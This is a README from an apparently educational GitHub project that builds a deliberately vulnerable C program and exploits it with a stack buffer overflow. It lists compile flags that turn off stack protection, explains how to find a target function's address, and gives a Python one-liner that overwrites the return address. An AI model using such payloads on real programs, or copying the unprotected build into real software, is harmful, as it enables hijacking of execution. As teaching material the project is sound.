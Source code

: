 # BufferOverflow
Writing a buffer overflow vulnerability and exploiting it.

# Quick Start
1. Compile the c file. Disabling stack protection and compiling for a 32 bit machine.

	`$ gcc -fno-stack-protector -m32 vulnerability.c`

2. Detrmine the address of the malicious function on your machine. You can do this in two ways.

	a. Easy method. run `./a.out` and it will print the address for you.<br>
	b. Cooler method. run `objdump -d a.out | less` and find the address manually.
  
3. Determine if you are on a Big Endian or Little Endian Machine. You can probably google this.

4. Run the injection using your malicious address in the proper LE/BE order
  
	`python -c 'print "a"*32 + "\xa0\x84\x04\x08"' | ./a.out`
  
Note: If you are on a LE machine, inject a LE ordered address. Otherwise, inject a BE ordered address.
My malicious address was 0\x080484a0 on a LE macine.
  



# Debugging
The malicious print statement was not printing until I flushed the printf buffer by adding a new line character '\n'.
If you are messing around with this, don't forget to flush the buffer or will just receive seg faults and not feel like a hacker :(
